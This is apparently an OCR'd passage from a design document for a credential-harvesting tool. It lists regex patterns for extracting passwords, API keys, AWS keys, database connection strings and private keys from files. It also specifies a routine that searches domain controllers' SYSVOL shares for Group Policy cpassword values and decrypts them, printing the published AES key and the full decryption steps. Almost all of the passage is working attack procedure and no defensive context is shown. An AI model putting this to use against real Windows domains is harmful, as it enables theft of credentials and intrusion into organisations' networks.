 **Regex Patterns:**
```python
CRED_PATTERNS = {
    'password': [
        r'password\s*[:=]\s*["\']?([^"\'\s\n]{3,})',
        r'pwd\s*[:=]\s*["\']?([^"\'\s\n]{3,})',
        r'DB_PASSWORD\s*[:=]\s*["\']?([^"\'\s\n]{3,})'
    ],
    'api_key': [
        r'api_key\s*[:=]\s*["\']?([A-Za-z0-9_-]{20,})',
        r'API_TOKEN\s*[:=]\s*["\']?([A-Za-z0-9_-]{20,})'
    ],
    'aws_key': [
        r'(AKIA[A-Z0-9]{16})',
        r'aws_secret_access_key\s*[:=]\s*["\']?([A-Za-z0-9/+=]{40})'
    ],
    'db_connection': [
        r'(jdbc:[^\s\'"]+)',
        r'(mongodb://[^\s\'"]+)',
        r'(mysql://[^\s\'"]+)'
    ],
    'private_key': [
        r'(-----BEGIN (?:RSA |DSA |EC |)PRIVATE KEY-----[\s\S]+?-----END (?:RSA |DSA |EC |)PRIVATE KEY-----)'
    ]
}
```

**Output:** List of credential dictionaries with type, value, context

### 4. GPP Password Decryption
**Function:** `check_gpp_passwords(domain_controllers, domain, username, password)`

**Process:**
1. Access SYSVOL share on each DC: `\\DC\SYSVOL\domain\Policies`
2. Recursively search for XML files: `Groups.xml`, `ScheduledTasks.xml`, `DataSources.xml`
3. Parse XML for `cpassword` attributes
4. Decrypt using Microsoft-published AES-256 key
5. Extract associated username from XML

**Decryption Algorithm:**
```python
# Microsoft published the AES key (MS14-025)
AES_KEY = b'\x4e\x99\x06\xe8\xfc\xb6\x6c\xc9\xfa\xf4\x93\x10\x62\x0f\xfe\xe8' \
          b'\xf4\x96\xe8\x06\xcc\x05\x79\x90\x20\x9b\x09\xa4\x33\xb6\x6c\x1b'

# Process:
1. Base64 decode the cpassword value
2. Add padding if necessary (multiple of 16 bytes)
3. Decrypt using AES-256-CBC with IV of zeros
4. Remove PKCS7 padding
5. Decode UTF-16-LE to get plaintext password
```
